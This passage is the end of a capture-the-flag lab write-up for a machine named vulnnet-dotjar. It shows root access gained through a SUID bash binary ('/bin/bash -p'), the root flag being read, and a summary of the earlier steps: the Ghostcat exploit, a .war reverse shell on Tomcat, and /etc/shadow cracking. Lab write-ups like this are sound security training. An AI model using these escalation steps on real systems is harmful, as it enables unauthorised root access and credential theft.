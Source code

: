 ```shell
jdk-admin@vulnnet-dotjar:/tmp$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Apr  4  2018 /bin/bash
```

**It worked! Let's spawn a root Bash shell!**
```shell
jdk-admin@vulnnet-dotjar:/tmp$ /bin/bash -p
bash-4.4# whoami;hostname;id;ip a
root
vulnnet-dotjar
uid=1000(jdk-admin) gid=1000(jdk-admin) euid=0(root) egid=0(root) groups=0(root),24(cdrom),1000(jdk-admin)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:1a:e0:76:d2:87 brd ff:ff:ff:ff:ff:ff
    inet 10.10.203.203/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 1871sec preferred_lft 1871sec
    inet6 fe80::1a:e0ff:fe76:d287/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**root.txt:**
```shell
bash-4.4# cat /root/root.txt
THM{Redacted}
```

# Conclusion

What we've learned:

1. Exploiting Apache JServ Protocol (ASP) Ghostcat Vulnerability
2. Deploying `.war` Reverse Shell In Apache Tomcat Manager App Via `curl`
3. Cracking `/etc/shadow` Password Hash
4. Horizontal Privilege Escalation Via Misconfigurated Sudo Permission & Executing A Java Programme